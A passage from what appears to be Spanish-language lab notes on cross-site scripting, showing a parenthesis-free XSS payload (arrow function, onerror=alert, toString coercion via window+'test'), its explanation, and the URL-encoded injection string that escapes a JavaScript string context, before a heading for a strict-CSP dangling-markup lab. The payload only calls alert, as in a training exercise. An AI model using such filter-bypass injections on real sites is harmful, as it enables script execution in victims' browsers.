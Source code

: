 ```html
<script>
a=a =>{
throw onerror=alert,1;
};
toString=a;
window + 'test';
</script>
```

> Como los paréntesis están bloqueados, podemos crear la función de otra forma. Usando las funciones flecha crearmos la función la cual lanza una excepción con el evento 'onerror', este es lanzado automáticamente ejecutando el 'alert'. Para llamar a la función podemos igualar la función interna de JavaScript 'toString'  por nuestra función 'a'. Para que se ejecute 'toString' podemos hacer una suma de la funcionalidad 'window' con el string 'test' que, internamente, JavaScript ejecutará la función 'toString' sobre 'window'.


![](/img2/Pasted%20image%2020250728175708.png)

- Injection

```javascript
&'},a=a=>{throw onerror=alert,1},toString=a,window%2B'test'},{x:'
```

## XSS con CSP estricto y marcado colgante || Reflected XSS protected by very strict CSP, with dangling markup attack
